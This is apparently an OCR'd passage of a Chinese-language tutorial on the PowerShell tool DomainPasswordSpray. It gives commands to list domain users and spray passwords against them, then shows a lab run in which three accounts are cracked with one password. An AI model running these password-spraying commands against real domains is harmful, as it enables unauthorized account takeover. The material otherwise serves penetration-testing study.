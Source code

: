     C:\PS> Get-DomainUserList -Domain 域名 -RemoveDisabled -RemovePotentialLockouts | Out-File -Encoding ascii userlist.txt
    
        

该命令将收集域“域名”中的用户列表，包括任何未被禁用且未接近锁定状态的帐户。 它会将结果写入“userlist.txt”文件中

    C:\PS> Invoke-DomainPasswordSpray -Password Winter2016
    
        

该命令将会从域环境中获取用户名，然后逐个以密码`Winter2016`进行认证枚举

    C:\PS> Invoke-DomainPasswordSpray -UserList users.txt -Domain 域名 -PasswordList passlist.txt -OutFile sprayed-creds.txt
    
        

该命令将会从`users.txt`中提取用户名，与`passlist.txt`中的密码对照成一对口令，进行域认证枚举，登录成功的结果将会输出到`sprayed-creds.txt`

**0x04 实战**

**获取域环境中的用户列表**

命令：-
`C:\PS> Get-DomainUserList | Out-File -Encoding ascii userlist.txt`

**输出：**

    [*] Current domain is compatible with Fine-Grained Password Policy.
    [*] Now creating a list of users to spray...
    [*] There appears to be no lockout policy.
    [*] There are 8 total users found.
    [*] Created a userlist containing 8 users gathered from the current user's domain
    
        

**获取的用户名：**

    C:\PS> type .\userlist.txt
    Administrator
    Guest
    liyingzhe
    krbtgt
    Hack
    testPass
    webManager
    dba
    
        

**密码枚举**-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201001220412672.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
命令： `C:\PS> Invoke-DomainPasswordSpray -Domain 域名 -Password w!23456 -OutFile sprayed-creds.txt`

输出：

    [*] Current domain is compatible with Fine-Grained Password Policy.
    [*] Now creating a list of users to spray...
    [*] There appears to be no lockout policy.
    [*] Removing disabled users from list.
    [*] There are 6 total users found.
    [*] Removing users within 1 attempt of locking out from list.
    [*] Created a userlist containing 6 users gathered from the current user's domain
    [*] Password spraying has begun. Current time is 18:45
    [*] This might take a while depending on the total number of users
    1 of 6 users tested2 of 6 users tested3 of 6 users tested[*] SUCCESS! User:testPass Password:w!23456
    4 of 6 users tested[*] SUCCESS! User:webManager Password:w!23456
    5 of 6 users tested[*] SUCCESS! User:dba Password:w!23456
    6 of 6 users tested[*] Password spraying is complete
    [*] Any passwords that were successfully sprayed have been output to sprayed-creds.txt
    